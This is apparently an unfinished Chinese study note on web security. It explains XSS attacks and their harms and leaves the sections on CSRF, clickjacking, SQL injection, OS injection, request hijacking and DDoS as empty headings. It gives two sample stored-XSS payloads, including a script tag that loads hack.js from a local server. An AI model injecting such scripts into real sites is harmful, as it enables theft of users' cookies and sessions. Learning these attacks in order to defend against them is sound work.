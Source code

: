 ## 1.XSS

> Cross Site Scripting 
>
> 跨站脚本攻击
>
> XSS(Cross Site Scripting )，跨站脚本攻击，因为缩写和CSS重叠，所以只能叫XSS。跨站脚本攻击是指通过存在安全漏洞的web网站注册用户的浏览器内运行非法的HTML标签或JavaScript进行的一种攻击。
>
> 跨站脚本攻击有可能曹成一下影响：
>
> - 利用虚假输入表单窃取用户个人信息
> - 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
> - 显示伪造的文章或图片



> XSS攻击分类

- 反射型--url参数直接注入

- 存储型-存储到DB后读取时注入

  ```
  // 评论
  <script>alert(1)</script>
  
  // 跨站脚本注入
  我来了<script src="http://localhost:4000/hack.js"></script>
  ```

  ##### XSS攻击的危害 - Scripting能干啥就能干啥 

  - 获取页面数据

  - 获取Cookies

  - 劫持前端逻辑

  - 发送请求

  - 偷取网站的任意数据

  - 偷取用户的资料

  - 偷取用户的秘密和登录态

  - 欺骗用户

  - #####   防范手段


## 2.CSRF

## 3.点击劫持

## 4.SQL注入

## 5.OS注入

## 6.请求劫持

## 7.DDOS